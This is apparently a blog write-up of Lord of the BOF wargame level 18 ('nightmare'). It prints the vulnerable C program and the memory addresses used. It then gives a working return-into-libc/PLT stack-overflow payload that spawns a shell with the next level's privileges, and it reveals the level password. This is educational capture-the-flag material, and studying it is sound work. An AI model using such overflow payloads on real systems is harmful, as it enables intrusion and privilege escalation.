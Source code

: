 ```yaml
---
layout: post
title:  "[LOB]Level18. nightmare"
subtitle:   "[LOB]succubus → nightmare"
categories: Wargame[LOB]
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : plt

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
    char buffer[40];
    char *addr;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // check address
    addr = (char *)&strcpy;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
        printf("You must fall in love with strcpy()\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    // dangerous waterfall
    memset(buffer+40+8, 'A', 4);
}
```

![image-20180727182321698](http://eliez3r.synology.me/assets/img/writeup/lob/18.nightmare/image-20180727182321698.png)

strcpy = 0x8048410

system = 0x40058ae0

ebp-40 = 0xbffffaa0

"/bin/sh" = 0x400fbff9

ret+4 = 0xbffffad0

```sh
[succubus@localhost succubus]$ ./nightmare `python -c 'print "\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"+"A"*32+"\x10\x84\x04\x08"+"A"*4+"\xd0\xfa\xff\xbf"+"\xa0\xfa\xff\xbf"'`
�@AAAA�@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������
bash$ my-pass
euid = 518
beg for me
bash$ id
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
```



##### **nightmare / beg for me**

